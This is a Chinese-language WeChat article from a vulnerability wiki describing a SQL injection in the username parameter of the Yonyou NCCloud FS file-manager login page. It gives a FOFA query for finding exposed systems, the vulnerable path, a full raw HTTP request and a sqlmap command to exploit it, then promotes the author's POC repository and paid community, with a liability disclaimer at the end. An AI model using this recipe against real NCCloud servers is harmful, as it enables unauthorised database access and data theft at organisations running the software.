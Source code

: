 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jb7XeLGvdyNrF1xQFsXDjA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**用友 NCCloud FS 文件管理登录页面对用户名参数没有过滤，存在 SQL 注入**

**二:  漏洞影响🐇**

**用友 NCCloud**

**三:  漏洞复现🐋**

```
FOFA "NCCloud"
```

**登录页面如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmCpgjFoDgTNHthDhaUDAS6JvIZ5zPS9Yhhthbb3t9kyyXRqKibEo1diaQ/640?wx_fmt=png)

**在应用中存在文件服务器管理登录页面**  

```
http://xxx.xxx.xxx.xxx/fs/
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmWkGZJLeey1GNGMAprdopzSSYsJ9jJEdiaCI27xCmSibial79MD3uokOkg/640?wx_fmt=png)

**登录请求包如下**

```
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

**使用 Sqlmap 对 **username 参数** 进行 SQL 注入**

```
sqlmap -r sql.txt -p username
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmQ11KDar2tiaHBtnNQIbN0pjBcpmPicEW7pbVLwArvRSEiagXKDnUlDW3g/640?wx_fmt=png)

 ****四:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmvfI5iaWc3vnKX1V2RQeXnCoLUaHMsjxxhuUc3K2wu9v5DmRW0MhXmrw/640?wx_fmt=png)

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmeShfVkfwQS8Oet0CwZ4pagFfNNcia9s6g4bSEIibEukYyRQzR6WVia4eg/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mm6ndgMqZlfq7MQ5H27d7lZlWEVG4VEGJjteefhdpJqqWaNR0JBNibjLQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmXickEs50QRGo5geOBjIBOlbeTOic9GvR3hGBvFsgibgP2FGplVQBr2yIQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5iaY2lic4SJgQRhsPWjR41mmNwJOPmSFkgjk0tAuSP3kHryDjyUia6Zfia1tmPVD2ibYALahPVicmFXopQ/640?wx_fmt=png)  

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**